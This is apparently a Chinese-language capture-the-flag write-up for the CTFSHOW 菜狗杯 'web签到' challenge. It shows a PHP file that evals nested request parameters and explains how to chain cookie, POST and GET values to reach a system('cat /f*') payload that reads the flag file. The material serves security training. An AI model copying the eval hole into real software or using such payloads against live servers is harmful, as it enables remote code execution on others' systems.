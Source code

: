 ```yaml
---
title: CTFSHOW_菜狗杯
date: 2022-10-21 23:20:17
excerpt: CTFSHOW_菜狗杯
categories: 复现
---
```


# CTFSHOW_菜狗杯





## web签到





```php
<?php

error_reporting(0);
highlight_file(__FILE__);

eval($_REQUEST[$_GET[$_POST[$_COOKIE['CTFshow-QQ群:']]]][6][0][7][5][8][0][9][4][4]);
```

一个看似很绕的代码，我们一层一层的看：

**$_COOKIE['CTFshow-QQ群:']**

我们将**cookie**里的**CTFshow-QQ群:**的值设置为a，

现在内容就是

```
$_REQUEST[$_GET[$_POST[a]]]
```

然后接着是post方式传入a=b

```
$_REQUEST[$_GET[b]]
```

然后用get方式传入b=c

```
$_REQUEST[c][6][0][7][5][8][0][9][4][4]);
```

REQUEST我们既可以用get方式也可以用post方式

```
c[6][0][7][5][8][0][9][4][4]=system('cat /f*');
```

这里要注意cookie中的**<u>CTFshow-QQ群:</u>**含有中文字符

